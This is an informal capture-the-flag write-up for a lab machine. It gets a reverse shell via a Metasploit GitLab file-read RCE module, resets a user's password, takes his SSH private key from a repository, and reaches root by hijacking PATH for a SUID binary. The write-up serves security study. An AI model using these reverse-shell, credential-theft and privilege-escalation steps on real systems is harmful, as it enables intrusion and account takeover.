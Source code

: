 # User root

![image](https://user-images.githubusercontent.com/24206178/154681635-a2aca730-052c-4975-a41e-888c2c3f08f6.png)

below laboratory.htb there's a domain git.laboratory.htb

Add that to /etc/hosts as well as 
10.10.10.216 laboratory.htb git.laboratory.htb

![image](https://user-images.githubusercontent.com/24206178/154681664-f8c84ea2-9843-4375-96b6-5a7d19155059.png)

![image](https://user-images.githubusercontent.com/24206178/154681676-632e7dae-6cf5-4ce6-860c-fbb5fca0431f.png)

create an account

![image](https://user-images.githubusercontent.com/24206178/154681694-5b13c9c4-83e7-441b-a7e4-78b2f774ad3e.png)

find a version of gitlab

GitLab Community Edition 12.8.1

exploit 

exploit/multi/http/gitlab_file_read_rce

payload

generic/shell_reverse_tcp

![image](https://user-images.githubusercontent.com/24206178/154681719-1b1733b9-fee9-4c4f-8ae9-b063b4de0194.png)


now focus

set usrname and password →  the username and the password from the account you created 

set RHOSTS →   10.10.10.216
set LHOST →     10.10.16.4          This one tun0: 10.10.16.4 is the vpn ip
Set RPORT →     443
Set SSL →         true


Command shell session 1 opened (10.10.16.4:4444 -> 10.10.10.216:33394)
[1:02 AM]
whoami
git

Gitlab-rails console reset user password

Reset the dexer user password

After that log into the gitlab again using the new password

you need to look into what's there on dexter's repository on gitlab

authorized_keys

now you have a private ssh key that allows you to login to the machine as user dexter

save the key in text file

then

chmod 600 id_rsa

//Permissions of 600 mean that the owner has full read and write access to the file, while no other user can access the file

dexter@10.10.10.216 -i id_rsa

Important Note:
if there is an error 

Error loading key "./id_rsa": invalid format

open that id_rsa file and make sure that there's a new line after -----END OPENSSH PRIVATE KEY-----

# Root
Using the Dexter user, we need to enumerae a little bit

//search for suid binary

//You have to explt docker-security binary

//docker-security binary is a SUID so you have to exploit
//u can run linpeas.sh
// i use linpeas to find me suid
//find / -perm -4000 2>/dev/null

A lot of directories

/usr/local/bin/docker-security

echo "/bin/bash" > chmod    //first one is write /bin/bash into chmod file

chmod +x chmod      //second one is give permission to chmod

export PATH=$PWD:$PATH      //export the pwd and path into path

echo $PATH          //

/usr/local/bin/docker-security          //

![image](https://user-images.githubusercontent.com/24206178/154681818-f84e6b46-2666-4f4d-a3a8-2d031470f78c.png)
